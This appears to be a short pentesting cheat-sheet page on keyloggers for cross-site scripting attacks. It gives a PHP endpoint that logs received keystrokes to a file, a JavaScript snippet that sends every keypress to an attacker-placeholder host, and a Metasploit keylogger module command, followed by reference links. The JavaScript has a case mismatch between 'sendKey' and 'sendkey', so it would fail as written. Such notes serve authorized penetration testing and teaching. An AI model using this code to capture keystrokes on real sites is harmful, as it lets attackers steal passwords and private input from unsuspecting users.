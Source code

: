 # Keyloggers

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

## 01 - Server-Side

### 1.1 - PHP

```php
<?php
header("Access-Control-Allow-Origin: *");
if(!empty($_POST['key'])) {
    $log = fopen('keylog.txt', 'a+');
    fwrite($log, $_POST['key']);
    fclose($log);
}
?>
```

### 1.2 - JavaScript

```js
function sendKey(event) {
	fetch("http[s]://<IP>/data?k=" + event.key);
}
document.addEventListener('keydown', sendkey);
```

## 02 - Metasploit

TODO: Fill this info

```
msf > use auxiliary/server/capture/http_javascript_keylogger

msf auxiliary(server/capture/http_javascript_keylogger) > options
```

---
## References

### Hacktricks

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

### IMVK

- [IMVK: Cross Site Scripting - Exploitation](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

### Geeky much

- [Geeky much: Cross-site Scripting](https://medium.com/secure-you/cross-site-scripting-b64f440ae060)

### Rapid7

- [Rapid7: Metasploit Framework - JavaScript Keylogger](https://www.rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/)